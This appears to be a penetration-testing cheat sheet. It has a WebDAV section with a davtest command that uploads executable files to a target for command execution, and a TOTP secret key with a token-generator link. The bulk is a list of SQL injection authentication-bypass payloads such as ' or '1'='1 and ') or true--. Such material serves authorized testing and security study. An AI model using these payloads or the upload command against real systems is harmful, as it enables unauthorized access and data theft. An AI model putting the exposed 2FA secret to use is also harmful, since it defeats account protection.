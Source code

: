 --------------------------------------------------------------------------

## WebDAV

- davtest	

	Tests WebDAV enabled servers by uploading test executable files
		(Optional) Uploads files which allow for command execution or other actions directly on the target.
 
	davtest -url http://$TARGET_IP 

- cadaver

	A command-line WebDAV client for Unix.
	
--------------------------------------------------------------------------
	
## Google Authenicator

	Generate 2fa token with https://totp.danhersam.com/ using secret key ND4LKCSFMUQISO6CBZQATLDP
		Reference: https://github.com/itemir/apache_2fa

--------------------------------------------------------------------------

## SQL-Injection

https://xapax.gitbooks.io/security/content/sql-injections.html

This is the most classic, standard first test:

' or '1'='1

Then you have:
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x

